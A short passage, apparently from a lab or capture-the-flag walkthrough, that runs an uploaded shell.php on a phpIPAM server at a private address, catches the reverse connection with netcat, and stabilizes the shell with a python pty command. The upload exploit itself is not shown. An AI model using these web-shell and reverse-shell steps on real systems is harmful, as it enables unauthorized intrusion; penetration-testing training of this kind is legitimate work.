

4.2 Run the exploit
1. Visit the following URL http://192.168.12.62/phpipam/app/subnets/import-subnet/upload/shell.php.
2. On your Kali Machine go to the terminal where “netcat” is running. You'll see there's a connection.
Output:

3. Stabilize the shell.
$ python3 -c 'import pty;pty.spawn("/bin/bash")'